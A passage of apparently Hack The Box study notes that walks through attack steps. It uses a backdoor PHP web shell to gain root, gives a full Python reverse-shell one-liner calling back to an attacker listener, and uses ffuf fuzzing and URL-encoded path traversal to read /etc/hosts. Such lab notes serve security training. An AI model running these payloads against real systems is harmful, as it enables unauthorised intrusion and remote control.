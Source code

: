 Use the script as follows.

```shell
gitblanc@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.

```shell
gitblanc@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Local File Inclusion

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`.
- Check [LFI 🎃](lfi.md)

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.
Let us first interact with it.

```shell
gitblanc@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using [Ffuf 🐳](/notes/tools/Ffuf.md) and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.

```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

[redacted]
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
```

It looks like `/api/download` is a valid API endpoint. Let us interact with it.

```shell
gitblanc@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell
gitblanc@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
